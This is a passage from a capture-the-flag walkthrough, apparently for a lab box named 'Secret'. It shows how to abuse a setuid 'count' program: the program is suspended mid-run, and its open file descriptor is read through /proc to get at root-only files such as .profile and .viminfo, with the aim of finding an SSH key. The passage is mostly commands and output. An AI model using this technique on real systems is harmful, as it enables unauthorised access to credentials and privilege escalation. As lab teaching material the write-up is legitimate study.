     drwx------      .ssh



For example, take `/root/.profile`. This file permissions are
`-rw-r--r--`, something any user can read. But because I can't access
`/root`, I still get denied from a normal read:



    dasith@secret:/opt$ cat /root/.profile
    cat: /root/.profile: Permission denied



That is because I don't have permissions on `/root`, not because of the
file itself.

If I try reading through `count`, the contents come back:



    dasith@secret:/opt$ ./count           
    Enter source file/directory name: /root/.profile

    Total characters = 161
    Total words      = 39
    Total lines      = 10
    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count
    dasith@secret:/opt$ ps auxww | grep ./count
    dasith      1551  0.0  0.0   2488   592 pts/0    T    16:26   0:00 ./count
    dasith      1553  0.0  0.0   6432   740 pts/0    S+   16:27   0:00 grep --color=auto ./count
    dasith@secret:/opt$ head /proc/1551/fd/3
    # ~/.profile: executed by Bourne-compatible login shells.

    if [ "$BASH" ]; then
      if [ -f ~/.bashrc ]; then
        . ~/.bashrc
      fi
    fi

    mesg n 2> /dev/null || true



#### Find SSH Key

I'll note that `.viminfo` is readable in `/root`. This is a file that
supports the `vim` text editor, and can include history. I'll use the
same trick to read it:



    Enter source file/directory name: /root/.viminfo

    Total characters = 16370
    Total words      = 2228
    Total lines      = 562
    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count
    dasith@secret:/opt$ pidof count
    1557                                    
    dasith@secret:/opt$ cat /proc/1557/fd/3
    # This viminfo file was generated by Vim 8.1.
    # You may edit it if you're careful!
    ...[snip]...
    # Registers: